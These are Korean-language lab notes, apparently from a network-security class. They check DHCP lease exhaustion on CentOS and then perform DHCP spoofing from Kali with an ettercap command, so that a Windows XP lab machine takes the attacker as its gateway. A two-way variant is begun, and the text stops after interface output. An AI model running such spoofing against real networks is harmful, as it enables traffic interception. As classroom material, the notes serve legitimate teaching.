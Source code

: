 ###### CentOS

[root@Linux-11 바탕화면]# vim /var/lib/dhcpd/dhcpd.leases

여기 가면 IP 100까지 다 할당된거 볼 수 있음



###### XP

cmd -> ipconfig /renew 하면 unable to contact 떠야 정상



#### Port Security (71p)

우린 지원 X

원래는 스위치에서 지원하는 거임

패스!



#### DHCP Spoofing (72p)

##### 단방향

###### 칼리

root@kali-04:~/Desktop# ettercap -i eth0 -T -M dhcp:172.16.10.200-250/255.255.255.0/168.126.63.1



###### XP

ipconfig /release -> ipconfig /renew

```
IP : 172.16.10.200
Subnet Mask : 255.255.255.0
Default Gateway : 172.16.10.30
```



##### 양방향 

###### 칼리

칼리 종료하고 Network Adapter 하나 추가하기 (MAC 주소 바꾸기) = VMnet 1번 이게 eth1이 될거임

ifconfig 로 추가된거 확인 

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.10.30  netmask 255.255.255.0  broadcast 172.16.10.255
        inet6 fe80::204:56ff:fe2f:d656  prefixlen 64  scopeid 0x20<link>
        ether 00:04:56:2f:d6:56  txqueuelen 1000  (Ethernet)
        RX packets 11  bytes 2147 (2.0 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1832 (1.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet6 fe80::204:56ff:fe3e:fa85  prefixlen 64  scopeid 0x20<link>
        ether 00:04:56:3e:fa:85  txqueuelen 1000  (Ethernet)
        RX packets 13  bytes 981 (981.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 19  bytes 2759 (2.6 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
-> 추가 완료

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
```